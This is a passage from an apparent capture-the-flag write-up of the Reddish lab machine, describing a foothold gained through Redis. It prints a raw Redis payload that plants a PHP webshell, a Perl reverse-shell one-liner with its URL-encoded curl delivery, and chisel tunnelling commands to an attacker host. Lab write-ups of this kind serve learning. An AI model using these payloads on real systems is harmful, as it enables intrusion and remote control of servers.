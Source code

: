 Although not something I tried I did check how else it could have been done; [alamot](https://alamot.github.io/reddish_writeup/#getting-www-data-www) prefers *to talk raw Redis. Have a look here [https://www.compose.com/articles/how-to-talk-raw-redis/](https://www.compose.com/articles/how-to-talk-raw-redis/) and here [https://redis.io/topics/protocol](https://redis.io/topics/protocol). So, basically, we can do something like this:
```bash
echo -ne '*1\r\n$8\r\nFLUSHALL\r\n*3\r\n$3\r\nSET\r\n$1\r\n1\r\n$32\r\n<?php shell_exec($_GET["e"]); ?>\r\n*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$5\r\nz.php\r\n*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$3\r\ndir\r\n$46\r\n/var/www/html/8924d0549008565c554f8128cd11fda4\r\n*1\r\n$4\r\nSAVE\r\n' | /tmp/socat - TCP:redis:6379
```

After fixing and figuring and learning so much about myself, chisel and method. BAM:
![](comeonletsgo.png)

Firstly I wanted to figure out the level of url encoding through curl before trying to ping back
![](whichperlandurlencoding.png)

```bash
perl -e 'use Socket;$i="172.19.0.3";$p=10003;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'

# We need to url encode the quotes!
curl http://127.0.0.1:10002/8924d0549008565c554f8128cd11fda4/nvm.php -d 'cmd=perl+-e+%27use+Socket%3b$i%3d%22172.19.0.3%22%3b$p%3d10003%3bsocket(S,PF_INET,SOCK_STREAM,getprotobyname(%22tcp%22))%3bif(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,%22>%26S%22)%3bopen(STDOUT,%22>%26S%22)%3bopen(STDERR,%22>%26S%22)%3bexec(%22/bin/bash+-i%22)%3b}%3b%27' --output -

```

## Finally a Foothold

![](yes.png)

Once the thrill of getting this far had died down I thren wonder how am I capable of file transfering and get more and better shells - MORE chisels

```bash
# NodeRED - more chisels
# 3 is the webshell
# 4 is to server file transfers through to 
nohup ./chisel client 10.10.14.94:10000 10004:127.0.0.1:10004 &

nohup ./chisel client 10.10.14.94:10000 10005:127.0.0.1:10005 &
```

![](wearestillinthedockerception.png)

But with users?
![](sadhomedir.png)

There is not much in term of files of these users or trace as neither are in /etc/passwd or /etc/groups
